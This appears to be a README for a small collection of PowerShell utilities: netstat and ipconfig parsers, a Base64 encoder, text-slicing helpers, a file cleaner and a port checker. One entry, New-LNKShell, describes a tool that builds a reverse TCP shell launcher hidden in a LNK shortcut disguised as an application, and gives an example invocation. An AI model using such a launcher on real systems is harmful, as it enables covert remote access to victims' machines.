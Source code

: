 This repository contains simple PowerShell tools used for parsing text, remotely gathering data, and doing stupid
things like encoding and decoding Base64.

#NetworkParsers
Collection of tools for parsing output of basic network commands

##Import-Netstat
Parses saved Netstat output (supports any/all of -a, -n, -o) and returns an object.

```
Import-Netstat -Path C:\Path\To\File(s)
```

##Import-IPConfig
Parses text files containing output of ipconfig or ipconfig /all and returns an object.

```
Import-IPConfig -Path C:\Path\To\File(s)
```
---
##Get-Base.ps1
Encode text to a Base64 string and back again.

```
Get-Base -String 'Hello World!' >>> SGVsbG8gV29ybGQh
Get-Base -Base64 'SGVsbG8gV29ybGQh' >>> Hello World!
```

##Get-Slice.ps1
Grab a slice of text from target file. Ideally this merges with Get-Substring.

```
Get-Slice.ps1 -Text "sample.txt" -Start "The quick brown" -End "lazy dog"
```

##Get-Substring.ps1
Returns the text between two strings.

```
Get-Substring -Start 'The quick' -End 'lazy dog' -Path C:\StoryAboutAFox.txt
```

##New-LNKShell.ps1
Creates a reverse TCP shell launcher embedded in a LNK file.

```
New-LNKShell -ComputerName 192.168.1.1 -Port 4444 -Application calc.exe
```

##Remove-Files.ps1
Removes files older than n days. Defaults to C:\Users\<YOU>\Downloads and 30 days

```
Remove-Files -Path C:\Path\To\Files -MaxAge 60
```

##Test-Port.ps1
Checks for open port and returns $True if open.

```
Test-Port.ps1 -Protocol TCP -Port 3389 -Targets 192.168.1.10
```
